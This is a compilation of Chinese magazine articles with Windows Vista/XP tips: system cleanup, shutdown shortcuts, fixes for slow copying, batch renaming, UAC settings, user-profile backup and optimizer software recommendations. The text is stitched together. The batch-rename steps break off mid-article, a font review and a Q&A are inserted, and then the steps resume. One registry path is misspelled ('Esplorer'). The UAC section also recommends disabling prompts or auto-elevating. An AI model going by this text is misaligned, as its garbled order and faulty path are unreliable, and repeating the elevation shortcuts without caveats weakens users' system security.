“Vista优化大师”由三个组件组成，分别是：“Vista瘦身大师”、“Vista IE免疫管理大师”和“Vista服务管理大师”。下面要用到的“Vista瘦身大师”专门用于Vista系统减肥和清理系统垃圾，具体使用方法如下：

启动Vista优化大师，关掉自动启动的“系统优化向导”，单击“系统清理”下的“文件系统清理”，即可启动Vista瘦身大师。单击“Vista系统盘清理（需要谨慎使用）”选项卡，再单击“系统盘内容分析”按钮，经过短暂分析，Vista瘦身大师会告诉你哪些文件可以删除，其中Vista自带驱动文件和自带备份文件用红色显示并建议保留，如图6。即使你确信它们无用的话，也最好在备份后再将它们删除。进行系统清理的方式有两种：直接删除和删除到回收站，后者是比较谨慎的做法，可以在出现系统问题时将其恢复。选择要删除的内容后单击“执行删除”按钮即可。

单击“硬盘垃圾文件清理”选项卡，可以清理硬盘上的垃圾文件，它的特点是：一、扫描垃圾文件的速度超快；二、超强定制功能，可以随心所欲自定义你的垃圾文件。使用方法也很简单：选择要清理的磁盘驱动器，单击“开始查找垃圾”文件，等待文件扫描结束后，单击“全选”按钮再单击“清理文件”即可。单击“选项”按钮，在“文件清理设置”窗口中，可以对垃圾文件进行自定义。

在Vista优化大师的“系统清理”下还有“注册表清理”选项，它可以帮助你扫描并清除注册表中的垃圾信息，当然此操作并不能清空多少硬盘空间，其主要目的是为了让系统运行得更顺畅。

### Vista关机轻松搞定

◆文/Kingjames

在Windows Vista中，单击“开始”菜单中的电源按钮后，系统默认的操作是“睡眠”，而不是传统意义上的关机，这应该说是微软相当“大胆”的举措，这究竟是给用户的日常操作带来了便利还是麻烦，目前仍存在着相当大的争议。事实上，国外很多用户有让电脑一直开机的习惯，对他们来说，选择“睡眠”，可以让电脑在几秒内迅速唤醒并恢复到“睡眠”前的状态，非常方便快捷。然而大部分中国用户更希望在离开电脑时将其关闭，这不仅仅是为了节省电费或延长电脑寿命，还有着节能、安全和操作习惯等方面的因素。在Windows Vista的默认设置中，执行关机操作的步骤十分繁琐：打开“开始”菜单，再单击“锁定”按钮右侧的小箭头，在弹出的菜单中才能找到“关机”命令，如此复杂的操作令很多用户颇有微词。下面我们就来看看如何解决这个问题。

> 《小提示》在Windows Vista中执行关机命令后，系统不需用户确认便会直接关机，请在保存好手头的工作后再尝试关机操作！

#### 一、重改“开始”菜单的电源按钮

Windows Vista“开始”菜单中的电源按钮默认操作为“睡眠”，我们可以将其设置为“关机”，这样，在需要关闭计算机时直接单击该按钮即可，从而使操作大大简化。具体操作方法如下：

打开“控制面板”，在经典视图下双击“电源选项”将其打开。在左边窗格单击“选择该电源按钮的功能”，然后将“按电源按钮时”设置为“关机”（如图1），单击“保存修改”。这样，“开始”菜单的电源按钮就由“睡眠”变成了“关机”，问题轻松解决！

#### 二、在桌面上建立关机快捷方式

我们也可以在Windows Vista桌面上创建关机、重启等操作的快捷方式，直接双击快捷方式即可实现关机或重启等操作，这样会更加方便快捷。具体方法如下：

- (1) 在桌面空白处单击鼠标右键，在弹出的快捷菜单中选择“新建→快捷方式”命令。
- (2) 在打开“创建快捷方式”对话框中输入“shutdown -s -t 0”（注意：不要输入引号，注意命令和参数间有一个空格，参数间也有一个空格，如图2）。各参数代表的意义如下：
  - -s代表shutdown，即关闭计算机，这里也可以使用-r，代表restart，即重启计算机。
  - -t代表timeout，即超时，后面的数字代表超时时间，0表示0秒，即无等待关机。
- (3) 单击“下一步”按钮，可以看到该快捷方式的默认名称为“shutdown.exe”，我们可以将其修改为“立即关机”或其他更具个性的名称。以后只要双击此快捷方式就能立刻关机，是不是更方便呢？
  注意：如果Windows Vista中存在多个用户，需分别针对每个用户创建相应的快捷方式。

#### 三、使用快捷键快速关机

还有些朋友喜欢使用快捷键来关闭计算机，如果操作熟练的话，这是最快的关机方式。

Windows XP的关机快捷键我们都很熟悉——按下Windows键（可用Ctrl+Esc组合键替代）的同时按U键，用左右方向键选择“待机”、“关闭”或“重新启动”中的一项再回车即可。

Windows Vista的关机快捷键则略显复杂——按下Windows键（可用Ctrl+Esc组合键替代）不放，连按三下向右方向键，再按U键，然后回车即可。如果已经将“开始”菜单的电源按钮改成了“关机”，这个快捷键就可以简化为Windows键（或Ctrl+Esc组合键）+向右方向键，最后回车即可。

### 傻博士问答：

#### CNSMINKP.VXD文件丢失

故障现象：每次开机时都出现“CNSMINKP.VXD，Press a key to continue”的提示，非常恼人。但是当回车后就可以正常进入系统。我已发现很多台机上都有这种情况，不知这是病毒还是系统故障。

故障分析：CNSMINKP.VXD文件是3721网络实名（上网助手）的重要文件之一，造成这一现象的原因可能是遭到恶意程序的破坏，或者其它软件误删除了3721网络实名，而不一定是病毒。

解决方法：解决这一问题并不困难，进入Windows后，可以用regedit直接删除注册表中的项，来达到修复Windows启动提示的问题。注册表路径是：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\CnsMinKP，只需要将CnsMinKP的注册表目录删除即可！此外，你也可以从3721的网络实名的官方网站下载CNSMINKP.VXD文件，地址为http://www.3721.com/down/CNSMINKP.VXD，然后将下载文件复制到Windows目录下的System子目录下即可。例如Windows98安装在C盘，则该目录一般为C:\windows\system。

### Vista文件操作缓慢之终极解决方案

◆文/小笼包

随着电脑硬件的不断升级，越来越多的朋友加入了Windows Vista用户的阵营。但是，在Windows Vista带给我们华丽的视觉享受和便捷的操作方式之外，同时也带来一个相当严重问题，那就是在拷贝和移动文件（夹）的时候速度很慢，复制个几十MB大小的文件都会显示“计算剩余时间”对话框，从而拖慢了操作过程，甚至会导致系统停转、挂起或停止响应。下面我们就介绍几个针对Vista文件操作缓慢的解决方案，希望对读者有所帮助。

#### 一、安装KB931770补丁

这也是最基础的解决方案。此补丁是微软专门为解决Vista文件操作缓慢而发布的。安装该补丁后，在Windows Vista下进行文件的拷贝或移动操作时，进度条几乎是立刻开始，此前系统花费大量时间来计算剩余时间的问题已经得到了修正，拷贝或移动文件的操作速度已经和XP无异。另外，该补丁安装完成后无需重启系统即可立即生效。

#### 二、安装KB938979补丁

这是一个关于系统性能方面的更新程序，安装本更新程序可以提高Windows Vista在某些情况下的性能，包括复制或移动大文件等操作。

> > 我们强烈建议用户始终开启Windows Vista的自动更新功能，以保证在第一时间获得并安装所有最新的系统补丁，当然，前提条件是你使用的Windows Vista为正版操作系统。

#### 三、关闭“远程差分压缩”

这也是目前最有效的解决办法之一，该方法不但可以解决网络上复制文件速度慢的问题，也可以解决本地文件操作速度慢的问题。具体设置方法是：打开“控制面板”，单击“程序”下的“卸载程序”，然后单击“打开或关闭Windows功能”，打开“Windows功能”窗口。取消选择“远程差分压缩”复选框，然后单击“确定”按钮即可，如图1。

#### 四、禁用索引服务

打开“控制面板”，在经典视图模式下双击“管理工具”，在打开的界面中双击“服务”选项，打开服务窗口。在其中找到Windows Search服务，双击打开其属性窗口，将“启动类型”设为“禁用”并单击“停止”按钮停止服务，如图2。

#### 五、关闭资源管理器的预览功能

将资源管理器设置为禁止显示预览，只显示图标，也可以提高文件操作速度。按Windows+E组合键启动资源管理器，按Alt键激活菜单栏，单击“工具→文件夹选项”命令，打开“文件夹选项”窗口。单击“查看”选项卡，在“高级设置”列表中选中“始终显示图标，从不显示缩略图”复选框，单击“确定”按钮，如图3。这其实是一种优化手段，目的在于提高资源管理器的操作速度。

#### 六、使用第三方拷贝软件

如果通过上述方法都不能很好地解决问题，我们还可以使用第三方拷贝软件，笔者这里向大家推荐其中的两款：KillCopy和TotalCommander。

##### 1. KillCopy

KillCopy是一款专业文件复制工具，它不仅复制速度比Windows本身更快（复制大文件时非常明显），而且还拥有众多的文件传输选项（例如，复制完毕后自动关机等），同时还具备“断点复制”和“速度控制”等许多实用功能。

##### 2. TotalCommander

原名WindowsCommander，它是一个超级文件管理器，在许多电脑爱好者的日常工作中早已替代了Windows自带的资源管理器，因为它实在是比Windows资源管理器好用得多。TotalCommander虽然体积小，但其功能强大，除了具有一般的文件管理功能外，还能实现诸如文件比较、快速搜索、快速查看、批量重命名、压缩、解压、分割、合并、编码、解码、FTP连接以及图像浏览等许多功能。

### Vista下玩转批量重命名

◆文/阿黄

如何重新命名一个文件，相信稍有电脑基础的朋友都很清楚。但是，如果有大量文件需要重新命名呢？例如，我们经常会遇到这样的情况：将大量数码相片重命名，以便我们查看和识别；从网上下载的MP3文件名称乱七八糟，需要利用MP3文件的ID3信息（注：ID3是MP3音乐文件的信息标签，包括曲名、演唱者、专辑、类别等信息）来对大量MP3文件进行重命名，以方便分类和识别……这时如果逐个对每个文件都单独进行重命名操作未免也太笨了，不仅浪费时间和精力，而且容易出错。下面就来介绍如何在Windows Vista系统下实现批量重命名的方法，感兴趣的朋友不妨一试。

#### 一、“拿来主义”实现批量重命名

在Windows Vista系统中，Windows自带的批量重命名功能得到了很大改进。具体操作方法为：

- （1）将需要批量重命名的文件放到一个文件夹下，按Ctrl+A组合键全选所有文件。如果要部分选择文件，则可以用鼠标配合Shift键和Ctrl键进行选择。
- （2）选定文件后，在所选文件上单击鼠标右键，选择“重命名”命令，或直接按F2功能键，此时第一个文件会处于可编辑状态，而其他文件都只是保持在选中状态。
- （3）输入新的文件名后按下回车键，此时每个文件都将具有相同的名称，其后跟有不同的序号以示区别。

需要注意的是：文件重命名的顺序是从左至右、从上至下。如果重命名的文件在所有选中的文件中间，那么重命名的顺序是先从左至右，从上至下，然后再返回最上边，再从左至右、从上至下。

如果发现重命名错误，只要尚未进行其他的文件操作，可以按Ctrl+Z组合键撤销操作，恢复原来的文件名。在Windows XP系统中，按Ctrl+Z组合键，每次只能取消对一个文件的重命名操作，而且只能用在最后命名的10个文件上，而Windows Vista中则没有这方面的限制。

#### 二、用ACDSee实现图像文件批量重命名

大家都知道ACDSee是一款著名的图像浏览软件，但很少有人知道它还是给图像文件批量重命名的好帮手。用户可以一边使用ACDSee浏览图片，一边对图片进行批量重命名，这对于数码照片的管理是非常有用的。注意：在Windows Vista中要使用ACDSee 9以上的版本，否则会出现兼容性问题。以下我们就以中文版ACDSee 9为例进行讲解。具体操作步骤如下：

- （1）启动ACDSee，在左侧的“文件夹”目录中选择要批量命名的图像文件所在的文件夹，选中后，要批量命名的图像文件就会自动出现在窗口的右侧。用鼠标配合Ctrl和Shift键可以方便地选择要批量重命名的图像文件（要选中全部图像可按Ctrl+A键）。
- （2）单击“工具栏”上的“批量重命名”按钮，打开“批量重命名”窗口。在“模板”选项卡中指定批量重命名的文件名格式，各主要选项的作用分别是：“模板”下拉列表框中的文字代表重命名后的文件名；“#”代表顺序排列的数字或字母，有几个“#”，就有几位数字或字母；在“开始于”数值框中可以设定“#”代表内容的起始值，比如可以指定为数字“1”或字母“A”；在“文件名大小写”下拉列表框中，可以设置文件名及其后缀的大小写方式。进行相关设置时，在右边的“预览”窗格中可以实时预览重命名的效果，满意以后单击“开始重命名”按钮即可，如图1。

#### 三、用“批量更名专家”实现批量重命名

如果你需要进行更复杂的批量重命名工作，比如前面提到的利用ID3标签信息来给MP3文件批量更名，建议使用专业级的批量命名软件“批量更名专家”。“批量更名专家”是一款优秀的批量文件更名工具，它不仅更名速度极快，而且还具有以下特点。

- （1）批量文件更名：可以快速地对大量文件或者整个目录（包括子目录下的文件）进行批量重命名，并且支持更名前的预览操作和更名后的撤销操作。
- （2）批量MP3音乐更名：可以自动搜索当前目录下的所有MP3音乐文件，并且能够根据MP3文件的ID3标签信息对文件进行更名。用户可以任意设定几种更名格式，比如“歌手-专辑-歌名”。
- （3）文件扩展名修改：可以对文件实现批量扩展名修改，利用此功能可以把文件批量设为与相应程序相关联。
- （4）批量设置文件属性：包括“只读”、“系统”、“存档”以及“隐藏”等。
- （5）序数更名：把批量文件（比如图片和音乐）更名成按序号顺序编号的一系列文件，比如“001.jpg”、“002.jpg”……

下面就介绍使用“批量更名专家”来给MP3批量重命名的方法（本文基于“批量更名专家V2.2版撰写），具体操作如下：## 字体鉴赏之汉仪萝卜体简

◆文/TMG zcy

推荐下载地址：http://sc.jcwen.com/tx/Font/Font2747.htm

简介：汉仪萝卜体简是汉仪众多字体之一，可它却风格突出，招致无数用户的喜爱，给人带来无限的生气。在汉仪的官方网站上，我们可以看到，他们对汉仪萝卜体这一美术字体的特点进行了这样的总结：这款字体的笔划粗壮活泼、构思新颖、风格独特。整体结构为上宽下窄，主要笔画上边宽大粗壮，下边由粗渐小、渐细，似萝卜形状，视觉效果具有醒目、突出的特点。十分适合于广告设计、期刊杂志、儿童读物等各类标题和装饰或者宣传用字等。

很显然，相比较我们的老朋友宋体字来说，这款字体更可谓是令人眼前一亮、别具特色。以前我们总是在卡片或者各种海报上看到这种字体，但是现在不用很麻烦，我们就能写出这样的字，而且绝不是采用原始的手写方式哦。此外，如果你的文件打印出来后显示的都是这种字体的话，恐怕也会招来无数艳羡的眼光。相信有了它，宋体字就被打入了“冷宫”，可是没有办法，这种萝卜体的魅力实在太大了，真的不怨我们喜新厌旧哦！

字如其名，萝卜形状的字体看上去就十分活泼可爱，大大的头，细小的脚，这种典型的头重脚轻居然也可以给人带来心旷神怡的感觉，看来细心的设计者也是别具匠心的。头重脚轻的感觉……原来也不错哦！

### 傻博士问答：Windows错误代码

故障现象：一台P4 Xeon服务器专门用于视频捕捉，其中捕捉程序通过视频卡的SDK自行开发。然而，这种非正式的软件在各方面的考虑未能尽善尽美，因此遇到了不少问题。每次执行程序时，都能看到视频卡中的动态画面，各种配置参数也完全正确。然而，一旦执行捕捉命令就会报错，并且Windows显示错误代码为“125”。

故障分析：Windows总是会出现这样那样的错误，更可气的是Windows发生错误的时候，给我们的信息只是一些数字代码（error code），然而并非每个人手上都一本技术手册等着查错误代码！也正是由于Windows这种偷工减料的报错方式导致用户不能解决很多问题，因为根本找不到问题的症结所在。经过重新装DirectX与视频卡驱动也无济于事，万般无奈之下只得重新安装操作系统。令人气愤的是，无论在Windows 98还是Windows 2000或者Windows XP下，总是显示错误代码，而且每次的错误代码不尽相同。

解决方法：面对这种情况，大家可以使用“Windows错误代码查询器”这款小软件，这个工具只有几百K，可以到http://www.crsky.net/soft/796.htm下载。事实上，这一工具的原理非常简单，它收集了所有的Windows错误代码。用户需要查询Windows出现的错误代码时，只要输入错误代码，程序会显示出一段叙述性的文字说明这个代码的含义，而且还是中文的。更为令人高兴的是，这款软件能够同时支持Windows98、ME、2000与XP。在Windows ME下，我们输入错误代码“125”，结果显示为“磁盘没有卷标”。居然是这样一个小小的问题。由于在分区时将卷标设置为“空”，因此SDK程序不能辨认该分区。通过重新设置卷标，问题得到完全的解决。事实上，以上只是一个“Windows错误代码查询器”应用，当我们遇到这类错误代码时，应该首先想到利用“Windows错误代码查询器”查询，这样可以尽快确认问题所在，少走很多弯路。

- （1）启动“批量更名专家”，其界面类似于资源管理器。首先在左侧窗格中选择要批量更名的MP3文件所在文件夹，然后在右边窗格选择要更名的MP3文件。
- （2）在工具栏上单击“MP3音乐改名”按钮，这时程序就会弹出一个“MP3改名浮动面板”。其中：“格式”下的“%1”、“%2”和“%3”分别对应窗口左侧中的“ID3格式表”，表示完成更改后的MP3名称格式，根据自己的需要，你可以随意选择流派、歌手、歌名等信息进行重命名设置；各个项目之间的间隔可以在“空格”选项中加以设置；大小写和序号也可以在相应的选项添加，如图2。

设置完成后，可以单击“预览”按钮，预先看一下效果，如果满意就可以单击“应用”按钮完成更改，所做的更改还可以在以后使用“撤销”按钮来恢复，操作十分方便。但需要注意：如果MP3文件的ID3信息丢失，这种批量命名方法对这个文件就失效了。

下面再来看一下“批量更名专家”的批量文件改名功能。选择要批量重命名的文件后，单击工具栏中的“批量文件改名”按钮，弹出“文件改名浮动面板”对话框。可以看到，批量文件改名功能包括：“大小写”、“插入”、“删除”、“替换”、“属性”、“序数”以及“文件名列表”等七个主要的功能，功能非常详尽。各项功能均可以预览和撤销，使用起来没有任何难度。“批量更名专家”的功能非常强大，建议读者亲自试试，没准儿能够挖掘出更多你正在苦苦寻觅的功能。

### 调整Vista安全策略，让UAC更好用

◆文/胡鹏

UAC是“用户账户控制”的英文缩写，它是微软为提高系统安全而在Windows Vista中引入的新技术，它要求所有用户在标准账号模式下运行程序和任务，阻止未认证程序的安装，并阻止标准用户进行不当的系统设置。

#### 一、彻底关闭UAC

很多用户在出现UAC提示窗口的时候，甚至看都不看，就会选择“继续”，这也不能怪他们，因为他们根本不知道还能做什么，这种情况下UAC还能起到保护系统安全的作用吗？显然不能。对于这样的用户来说，不如干脆关闭UAC，回到传统的Windows 2000/XP/2003下用户权限的管理模式，具体操作方法如下：

在“开始”菜单中的“开始搜索”栏中输入“msconfig”并回车，打开系统配置实用程序。单击“工具”选项卡，在列表中找到并选中“禁用UAC”选项，然后单击“启动”按钮，如图1，重启电脑后设置生效。当然，关闭UAC是以牺牲系统安全性为代价的，实属下下策，我们后面还会介绍更好的方法。

#### 二、调整UAC的提示方式，让它更安静

直接关闭UAC功能，虽然可以免除系统“骚扰”，但是与之相应的系统安全性能也会下降许多。作为一种替代的解决方案，我们可以更改UAC消息的提示方式，让UAC在后台默默地服务，最大限度地避免用户的操作被UAC弹出的消息打断，具体操作方法如下：

在“开始”菜单中的“开始搜索”栏中输入“secpol.msc”后回车，打开“本地安全策略”编辑器。在左侧的控制台树中依次展开“本地策略→安全选项”，在右侧窗格里找到“用户账户控制：管理员批准模式中管理员的提升提示行为”（如图2），双击将其打开，在下拉菜单中选择“不提示，直接提升”，最后别忘了单击“确定”按钮。这样做的好处是一般的行为都不会再发出提示，但一些重要的行为还是会提示的。以后当以管理员身份登录Windows Vista后，将会很少再看见烦人的UAC信息提示窗口。

#### 三、改变UAC的显示方式，让它更友善

UAC提示每次出现时，整个屏幕都会变成灰色，这种情况称为“安全桌面”，但很多对Windows Vista不熟悉的用户通常都会为之一惊，以为出现了什么状况，其实我们可以改变UAC的显示方式，使其和普通的对话框弹出方式一样，具体操作方法如下：

使用上面讲解过的方法，打开“本地安全策略”编辑器。在左侧的控制台树中依次展开“本地策略→安全选项”，在右侧窗格里找到“用户账户控制：提示提升时切换到安全桌面”，双击将其打开，选择“已禁用”，确定后退出。此后，UAC窗口就会像普通对话框一样弹出。

### 傻博士问答：卸载DirectX 9.0c

在Windows XP下将DirectX 9.0b升级到DirectX 9.0c，不过发现很多游戏不能正常运行了，而且部分游戏速度减慢，因此想回到原来的DirectX。但是DirectX 9.0似乎没有反安装程序。新版本的DirectX确实会带来一些麻烦的兼容性问题，特别是最新的DirectX9.0c。然而微软似乎总喜欢一厢情愿地强加用户，DirectX居然不能安装比当前低的版本！无奈之下，建议用户使用DirectX卸载工具，而其中BUE DirectX卸载精灵是一款很不错的工具，能卸载所有DirectX版本，让你顺利实现“降级”，可以到http://download.pchome.net/system/patch/11952.html下载。

### 打造操作系统的“预备役部队”

文/TMG zq

引言：不管你是初学电脑者，或者是黑客级人物，恐怕都会遇上这样的尴尬：明天要交的稿件不翼而飞，昨天轻轻点击便可进入的论坛今天却要你重新输入用户名和密码，精心收藏的女友照片统统不见。是病毒入侵还是系统崩溃？那干脆重装系统吧！然而随之而来的问题变本加厉，连桌面的背景都变成Windows的初始设置，总感觉坐在一台从来没有接触过的电脑面前。这种丢失随时随地发生，令你猝不及防，到最后只有懊恼的份了。更重要的是，在工作中，企业秘密文件的丢失可能遭致被开除的危险境地。那么，怎样才能使配置文件牢牢地“锁”在自己的电脑中，不怕系统崩溃，不用为重装系统而顾虑重重。事实上，笔者昨天就迫于无奈重新装了一次系统，但是所有的文件在短短一分钟内又重新出现在我的面前，没有一点陌生和遗憾的感觉。接下来，笔者就要为大家介绍一个Windows系统带给我们的“双保险”。可能你还没有听说过这个设置，不过不要紧，它就实实在在地在你身边，并且操作十分简易和方便。相信你看过之后，就可以轻松解决这方面所带来的困扰啦。

#### 一、为系统上堂理论课

在给大家演示如何进行个人配置备份之前，先要给大家介绍一个名词：备份。那么什么叫备份呢？所谓备份，就是把你计算机中的系统、程序、文件、图片、音乐、IE、OE等等配置再做出一模一样的一份以备不时之需。具体来说，备份包括系统备份和文件备份。系统备份是将操作系统文件复制一份保存下来，当系统出现问题时，可以将这个备份恢复到备份前的状态。而文件备份，就是对个人而言比较重要的用户配置文件，比如文档，图片等准备一份放在其他储存空间。当电脑遭遇病毒入侵或者是由于错误操作系统使得文件（数据）被破坏甚至丢失时，我们便可将备份文件恢复到原先的状态，免去你的大惊失色和手足无措。形象地说，备份就好比汽车后箱的备胎，安全保证整个配置的完整性。一般备份文件的扩展名为BAK，也有很多软件特有的扩展名。说到这里，要告诉大家的是，文件的备份工作也可以通过专业的备份软件来进行处理，比较优秀的备份软件有Ghost。

#### 二、时刻对你的数据进行备份

系统的重新装入会带来很多文件的丢失，那么我们便需要将文件和熟悉的计算机环境拷贝起来。在以前，如果将这些文件备份到新的计算机上可能是一件十分复杂的任务，但是，Windows系统为我们专门设计的文件和设置转移工具轻松地实现了这一工程的自动化，可以轻松地完成它。接下来，给大家介绍一下配置文件是如何工作的，了解了它的工作原理后，我们才能更轻松、准确地掌握个人文件的备份。当我们给电脑上装入操作系统（Windows 2000/2003/XP），在第一次登录时电脑会为当前账号建立一个用户配置文件夹。那我们怎么样找到它呢？方法有两种：一是可以直接在操作界面上打开位于“c:\Documents and Settings”中的文件夹；二是可以单击“开始→运行”，这时会看见弹出一个名为“运行”的页面，输入“%SystemDrive%\Documents and Settings”便可以打开文件夹了。文件夹会使用登录者使用的用户名作为此文件夹的名字，如果在文件夹“Documents and Settings”中存在和当前用户名相同的文件夹，系统就会自动更改此文件夹的名字，以避免操作者错误使用。具体修改的方式是在其名称后面再加上一个后缀名。比如：如果当前用户名为11，在“Documents and Settings”也存在名为11的文件夹，系统将不会为你再建立一个名为“11”的文件夹，而是建立一个名为“11.计算机名”的文件夹了。如果这样的文件夹也存在于电脑之中，系统则会为你的文件夹取名为“11.计算机名.000”。总之，电脑不会有相同名称的就对了。下面，笔者就为大家介绍一下文件和设置转移向导（Files and Settings Transfer Wizard）。这个工具即使是菜鸟级人物也可以轻松地使用，同时，它涵盖了多种文件的备份工作。具体来说，包括收藏夹、图片、音乐和各种文档，包括Internet、电子邮件，其中电子邮件中还包含了连接到邮件服务器的信息、本地邮件、联系人等，甚至连个性化设置都可以统统转移到新PC上，比如墙纸、屏保、任务栏等等，以及包括文件夹选项、键盘和鼠标等等文件和数据信息。既然它能备份的东西那么多，那么，怎么使用文件和设置转移向导呢？别担心，它的使用方法十分简单。首先，在旧计算机上使用向导勾选要备份的文件。具体步骤是：“开始→程序→附件→系统工具→文件和设置转移向导”。这时，你会看见弹出一个名为“欢迎使用文件和设置转移向导”的页面（图1），选择“旧计算机”，然后单击下一步。你会看见又有一个界面弹出来，防火墙问你是否允许文件和设置转移向导访问网络，点击“允许”。这时，弹出一个新的页面，我们的备份内容可以有三个选择：网络、可移动驱动器和其他。直接使用电缆迁移文件是一种简单有效的备份方式。这里介绍的是通过电缆利用串口行进行数据的移动。你需要一条用于两台计算机连接的电缆。不用担心这种电缆会买不到，任何大一点的计算机设备专卖店都有销售。步骤十分简易，选择用电缆移动之后，单击“下一步”，你会看到一个名为“设置串行连接”的页面（图2）。首先，你用电缆连接计算机，并在新的计算机上按照同类方法继续运行向导到此页面，两个向导均单击“自动检测”，当向导连接成功后，文件和数据可自动转移到新的计算机。

如果你没有连接新、旧计算机的专用电缆或网络，可以使用可移动媒体。但在使用它之前，也就是说在做以上工作之前，你需要在新计算机上按照上面介绍过的方法在新计算机上启动向导。在出现的第一个窗口中点击“新计算机”，并单击“下一步”。然后在弹出的名为“您有Windows XP CD 吗？”的页面中选择“我要在以下驱动器中创建向导磁盘：”，然后单击“下一步”。随后，你便可以将3.5英寸的软盘插入新计算机的软盘驱动器。如果你的PC没有软盘驱动器，则选择“我将使用 Windows XP CD 中的向导”选项，并单击“下一步”。你可以选择购买Windows XP CD。然而，由于3.5英寸软盘的存储量十分有限，所以，最好将文件放入可移动磁盘。如果你没有这类设备的话，那么也没有关系。你可以选择“其他”，并在窗口最下方选择一个保存个人设置的文件夹，然后单击“下一步”。随后我们可以看见这样一个“要转移哪些项目”的页面。你可以在此选择“只包括设置”、“只包括文件”或者是“包括文件和设置”，如果你要想知道每个选项的详细信息，可以看右边的窗格。选择“包括文件和设置”，并勾选“由我来选择一个自定义的文件和设置”，继续单击“下一步”。在这个页面里，你可以有非常大的自由度选择想要备份的文件和设置，并可以删除或者添加要备份的内容，最后点击“下一步”。接下来你需要耐心地等待一段时间，因为向导需要扫描并收集计算机里面要备份的内容。待收集完毕，即完成了备份的操作。怎么样，是不是十分简单和轻松呢？

#### 三、轻松恢复你的文件备份

当重新装过系统之后，你便可以将备份的内容从网络、移动存储设备或者其他分区内把个人配置文件转移到新的系统中了。这个过程的操作也十分方便，并且和刚才的操作过程类似。依次单击“开始→程序→附件→系统工具→文件和设置转移向导”，在“欢迎使用文件和设置转移向导”的页面中单击“下一步”，选择“新计算机”后单击“下一步”，此时你有三种选择：“我已有向导磁盘”、“我将使用Windows XP CD中的向导”、“我不需要向导，我已从旧计算机收集了文件和设置”。如果你使用的是移动磁盘，可以选择第一项；如果你使用的是3.5英寸磁盘，即可选择第二项。此外，选择第三项。单击“下一步”，出现“文件和设置在哪儿？”的页面，这里可以根据在旧计算机所选择的方式进行选择。选择“直接电缆”，单击“下一步”，在这个页面中，需要输入串口行，如果不知道的话，也可以进行自动检测，这可能需要一段时间，耐心等待，然后单击“下一步”，然后根据提示，保存数据即可。同时，你可以选择“软盘驱动器或其他可移动媒体”和“其他”，这两种方式跟上面介绍过的电缆方式相同，根据向导的提示，保存即可。最后，你需要做的是重新启动计算机以确保导入的数据在新计算机中生效。

> **小提示**：在有些时候，某些设置可能无法恢复到计算机中；或者两个Windows系统不兼容时也不可转移。无法恢复的文件及设置会显示在文件和设置转移向导的“完成文件和设置转移向导”的页面上。

#### 四、走个备份的小捷径

通过上面介绍的方法你一定可以轻松地实现文件（数据）的备份了吧。当然，我们总是希望备份的过程更加迅速和简便。下面，我就为大家介绍一种备份文件小窍门，可以实现文件备份的简单化。如果你在平常只是使用一台电脑的话，就不必在每次重装系统时进行这么繁琐的备份了。那么怎样做呢？你可以将用户配置文件备份到硬盘的其他分区，重装系统后，把当前登录账号的配置文件指向这个分区就行了。这样，我们就可以轻松地找回属于自己的配置文件了。具体做法，首先输入一条命令。点击“开始→运行”，输入“cmd”。这样，我们就打开了命令行提示窗口。输入“set”，回车，你会看见很多的英文字段，在里面寻找一个名为“USERPROFILE”的字段（图3）。在这个字段的后面，表明了配置文件在电脑中所在的位置。按照这个信息，就可以轻松地找到我们所要备份的配置文件了。在找到配置文件后，接下来就要按照上面介绍过的方法进行备份了。当然，我们并不需要把所有的配置文件都进行备份，只把觉得重要的文件进行备份就好了，例如一些文档，照片等。这样不但会节省很多时间，同时在使用时也利于文件的寻找。这时，需要对文件进行一些修改。这里以“AudioDecode”为例，单击“开始→运行”，输入“regedit”，在“注册表编辑器”中定位到[HKEY_CURRENT_USER\Software\Microsoft\WindowsMedia\WMSDK]，在页面的右侧会列出和个人相关的文件夹，修改其路径即可。接下来，要把需要的文件夹复制到其他分区。在上面介绍过的注册表里，双击你找到的文件夹，在页面的右侧窗框中会出现很多文件，将其复制到别的分区即可。下面，来给大家介绍一下修改注册表，使得用户配置文件指向这个文件夹。打开“注册表编辑器”，这次我们要修改“我的文档”，使它指向你要转移分区的文件夹。打开“注册表编辑器”，定位到 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Esplorer\User Shell Folders]，在这个注册表的许多文件夹中挨个打开，并找到其值。“User Shell Folders”后面的数值指向当前用户使用的文件夹路径，我们需要把这个文件夹的路径改为文件要移动的分区的具体地址。综述：好了，介绍了这么多，相信你一定会有所收获吧！那么，就赶紧去“实习”一下，给自己的重要配置文件做份备份。这样，再遇到系统崩溃的“重大灾难”时，痛苦的表情不会出现你的脸上，你可以微笑着恢复所有需要的文件了！

### 操作系统要“排毒养颜”——六款实用系统优化软件推荐

◆文/TMG zgpp

引言：日复一日地下载安装、程序，创建、删除文件，不知“电脑族”们是否问过自己这样的问题：“我的小电还好吗？”也许用户朋友要说：“我的电脑看起来很正常。”但长期操作系统留下的垃圾文件、停留在系统中的恶意插件木马程序、在系统卸载不完全导致的错误信息……你的电脑，是否只是看上去很美呢？电脑像房屋一样，时间久了，也需要打理。作为一个称职的使用者，你甭管是对“表里如一”的崭新的小电，还是“金玉其外败絮其中”的老爷机，都该好好地选取一款系统优化软件，对系统进行清理和优化。为辛苦的小电们着想，笔者选取了六款非常实用的系统优化软件，其在性能上各有所长，有需要清理、优化系统的用户朋友，不妨一起来看一下吧！

#### 一、优化精要——Ashampoo WinOptimizer

- 软件大小：7897 KB
- 软件性质：共享版
- 软件语言：英文
- 适用系统：Windows 9x/Me/NT/2000/XP/2003
- 推荐感言：性能丰富，操作便捷，反应迅速。
- 下载链接：http://www.onlinedown.net/soft/48499.htm

##### 1. Ashampoo WinOptimizer 简介

Ashampoo WinOptimizer是一款非常好用的系统优化软件，可提供多种工具实现系统优化。有“系统清理工具”，可进行硬盘、网络、注册表等处的垃圾清理，查找迅速，处理能力一流。一般无用的、重复的、暂时的、失去连结的文件、对象、字型、声音、说明、共享DLL、图标、快捷方式、注册登录信息、网络快取等都可以精准快速地找出来。运用本款软件的“系统协调工具”可优化开机程序、屏蔽IE广告和插件、搜寻系统信息、加速网络操作、管理系统进程等。“文件工具”则可执行对系统存储空间的管理、对文件的粉碎、合并拆分、加密解密的功能。运用“系统调整工具”则可以实现查看系统软硬件信息、系统个性设置、系统图标更改设置等功能。

##### 2. Ashampoo WinOptimizer 功能简介

Ashampoo WinOptimizer这款软件提供了比较丰富的系统优化性能。现笔者就其4.41版本中四款重要工具的一些基本功能进行简单介绍。该版本为英文版，不过其皆为一键式便捷操作，虽未汉化，也较为容易理解。



